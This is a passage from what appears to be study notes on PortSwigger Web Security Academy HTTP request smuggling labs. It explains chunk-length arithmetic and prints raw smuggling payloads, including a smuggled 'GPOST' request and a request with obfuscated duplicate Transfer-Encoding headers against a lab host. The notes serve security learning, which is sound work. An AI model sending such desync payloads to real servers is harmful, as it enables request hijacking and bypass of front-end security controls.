 ```
0


```

- You need to include the trailing sequence \r\n\r\n following the final 0.

- Frontend processes the message body in chunks, first chunk is 0x1E characters long

  <img width="175" alt="image" src="https://user-images.githubusercontent.com/56427824/195567616-d468e7fd-b644-4f5d-abd8-873d21876c8f.png">
  
  Between 1E and 0 (exclude 1E and 0)

  1. Content-Length = 4, hence read until 1E (0x1E is 30 in decimal)

      https://www.rapidtables.com/convert/number/decimal-to-hex.html

      <img width="174" alt="image" src="https://user-images.githubusercontent.com/56427824/195537969-ae189a71-a4a0-4ba3-8e7d-12dd97682cc8.png">
      
      ```
      GPOST /post/comment HTTP/1.1
      
      ```

  2. Moves on to the second part of the message body, backend interprets the next chunk as a request, but it is a 0. Hence terminate
      
      ```
      0


      ```

- Backend processes the following from the frontend

  ```
  1E
  GPOST /post/comment HTTP/1.1

  0


  ```

  1. 1E\r\n is 4 bytes which is the content length of the request

  2. Backend then interprets `GPOST /post/comment HTTP/1.1` as a new request
  
### HTTP request smuggling, basic TE.TE vulnerability (obfuscating the TE header)

https://brightsec.com/blog/http-request-smuggling-hrs/

```
POST /post/comment HTTP/1.1
Host: 0a8f003f0461e769c1135c5a0032004a.web-security-academy.net
Cookie: session=s97rB8eREWI7Ydhn0BDlTaTBsTB1ZY0d
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: x
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a8f003f0461e769c1135c5a0032004a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
```